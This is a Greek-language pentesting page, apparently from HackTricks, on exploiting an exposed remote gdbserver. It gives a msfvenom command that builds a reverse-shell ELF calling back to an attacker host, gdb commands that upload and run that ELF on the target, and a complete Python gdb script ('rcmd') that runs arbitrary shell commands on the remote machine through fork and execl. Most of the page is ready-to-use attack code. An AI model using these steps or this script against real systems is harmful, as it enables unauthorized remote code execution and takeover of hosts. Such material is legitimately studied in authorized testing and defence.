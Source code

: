 # Pentesting Remote GdbServer

{{#include ../banners/hacktricks-training.md}}


## **Βασικές Πληροφορίες**

**gdbserver** είναι ένα εργαλείο που επιτρέπει την αποσφαλμάτωση προγραμμάτων απομακρυσμένα. Εκτελείται παράλληλα με το πρόγραμμα που χρειάζεται αποσφαλμάτωση στο ίδιο σύστημα, γνωστό ως "στόχος." Αυτή η ρύθμιση επιτρέπει στον **GNU Debugger** να συνδεθεί από μια διαφορετική μηχανή, τον "οικοδεσπότη," όπου αποθηκεύονται ο πηγαίος κώδικας και μια δυαδική αντιγραφή του αποσφαλματωμένου προγράμματος. Η σύνδεση μεταξύ του **gdbserver** και του αποσφαλματωτή μπορεί να γίνει μέσω TCP ή μιας σειριακής γραμμής, επιτρέποντας ευέλικτες ρυθμίσεις αποσφαλμάτωσης.

Μπορείτε να κάνετε τον **gdbserver να ακούει σε οποιαδήποτε θύρα** και αυτή τη στιγμή **το nmap δεν είναι ικανό να αναγνωρίσει την υπηρεσία**.

## Εκμετάλλευση

### Ανέβασμα και Εκτέλεση

Μπορείτε εύκολα να δημιουργήσετε ένα **elf backdoor με το msfvenom**, να το ανεβάσετε και να το εκτελέσετε:
```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```
### Εκτέλεση αυθαίρετων εντολών

Υπάρχει ένας άλλος τρόπος να **κάνετε τον αποσφαλματωτή να εκτελεί αυθαίρετες εντολές μέσω ενός** [**προσαρμοσμένου script python που έχει ληφθεί από εδώ**](https://stackoverflow.com/questions/26757055/gdbserver-execute-shell-commands-of-the-target).
```bash
# Given remote terminal running `gdbserver :2345 ./remote_executable`, we connect to that server.
target extended-remote 192.168.1.4:2345

# Load our custom gdb command `rcmd`.
source ./remote-cmd.py

# Change to a trusty binary and run it to load it
set remote exec-file /bin/bash
r

# Run until a point where libc has been loaded on the remote process, e.g. start of main().
tb main
r

# Run the remote command, e.g. `ls`.
rcmd ls
```
Πρώτα απ' όλα **δημιουργήστε τοπικά αυτό το σενάριο**:
```python:remote-cmd.py
#!/usr/bin/env python3

import gdb
import re
import traceback
import uuid


class RemoteCmd(gdb.Command):
def __init__(self):
self.addresses = {}

self.tmp_file = f'/tmp/{uuid.uuid4().hex}'
gdb.write(f"Using tmp output file: {self.tmp_file}.\n")

gdb.execute("set detach-on-fork off")
gdb.execute("set follow-fork-mode parent")

gdb.execute("set max-value-size unlimited")
gdb.execute("set pagination off")
gdb.execute("set print elements 0")
gdb.execute("set print repeats 0")

super(RemoteCmd, self).__init__("rcmd", gdb.COMMAND_USER)

def preload(self):
for symbol in [
"close",
"execl",
"fork",
"free",
"lseek",
"malloc",
"open",
"read",
]:
self.load(symbol)

def load(self, symbol):
if symbol not in self.addresses:
address_string = gdb.execute(f"info address {symbol}", to_string=True)
match = re.match(
f'Symbol "{symbol}" is at ([0-9a-fx]+) .*', address_string, re.IGNORECASE
)
if match and len(match.groups()) > 0:
self.addresses[symbol] = match.groups()[0]
else:
raise RuntimeError(f'Could not retrieve address for symbol "{symbol}".')

return self.addresses[symbol]

def output(self):
# From `fcntl-linux.h`
O_RDONLY = 0
gdb.execute(
f'set $fd = (int){self.load("open")}("{self.tmp_file}", {O_RDONLY})'
)

# From `stdio.h`
SEEK_SET = 0
SEEK_END = 2
gdb.execute(f'set $len = (int){self.load("lseek")}($fd, 0, {SEEK_END})')
gdb.execute(f'call (int){self.load("lseek")}($fd, 0, {SEEK_SET})')
if int(gdb.convenience_variable("len")) <= 0:
gdb.write("No output was captured.")
return

gdb.execute(f'set $mem = (void*){self.load("malloc")}($len)')
gdb.execute(f'call (int){self.load("read")}($fd, $mem, $len)')
gdb.execute('printf "%s\\n", (char*) $mem')

gdb.execute(f'call (int){self.load("close")}($fd)')
gdb.execute(f'call (int){self.load("free")}($mem)')

def invoke(self, arg, from_tty):
try:
self.preload()

is_auto_solib_add = gdb.parameter("auto-solib-add")
gdb.execute("set auto-solib-add off")

parent_inferior = gdb.selected_inferior()
gdb.execute(f'set $child_pid = (int){self.load("fork")}()')
child_pid = gdb.convenience_variable("child_pid")
child_inferior = list(
filter(lambda x: x.pid == child_pid, gdb.inferiors())
)[0]
gdb.execute(f"inferior {child_inferior.num}")

try:
gdb.execute(
f'call (int){self.load("execl")}("/bin/sh", "sh", "-c", "exec {arg} >{self.tmp_file} 2>&1", (char*)0)'
)
except gdb.error as e:
if (
"The program being debugged exited while in a function called from GDB"
in str(e)
):
pass
else:
raise e
finally:
gdb.execute(f"inferior {parent_inferior.num}")
gdb.execute(f"remove-inferiors {child_inferior.num}")

self.output()
except Exception as e:
gdb.write("".join(traceback.TracebackException.from_exception(e).format()))
raise e
finally:
gdb.execute(f'set auto-solib-add {"on" if is_auto_solib_add else "off"}')


RemoteCmd()
```
{{#include ../banners/hacktricks-training.md}}
